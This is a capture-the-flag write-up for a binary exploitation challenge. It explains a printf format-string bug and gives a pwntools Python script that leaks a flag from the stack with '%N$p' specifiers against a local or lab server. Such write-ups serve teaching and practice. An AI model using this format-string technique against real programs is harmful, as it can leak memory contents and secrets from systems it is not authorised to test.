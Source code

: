 # E.L.I.A
## Challenge
This challenge first reads the flag from the file `flag.txt` and saves it on the **stack**. Then, it requests input from the user and subsequently prints it insecurely using `printf` without any **defined format**.

This executable can therefore be exploited if the correct offsets on the stack of the flag (from 8 to 13) are found and used together with `%p` in the format `%x$p` where *x* is the offset.

## Solution
```py
#!/usr/bin/env python3
from pwn import args, remote, process

# Change this to remote if you want to run it on remote server
if args.REMOTE:
    r = remote('localhost', 1337) # change host and port
else:
    r = process('./pwn3')

r.recvuntil(b'?\n')
PAYLOAD = b''
for i in range(8, 13):
    PAYLOAD += f'%{i}$p'.encode()

r.sendline(PAYLOAD)
flag = [int(i, 16) for i in r.recvline().decode().split('0x')[1:]]
pascal = ''
for i in flag:
    pascal += i.to_bytes(8, 'little').decode()

pascal = pascal.replace('\x00', '')
print(pascal)
```

## Author
**Author**: [`@AlBovo`](https://github.com/AlBovo/) <br>
**Date**: 2024-07-19 <br>
**Category**: Binary Exploitation
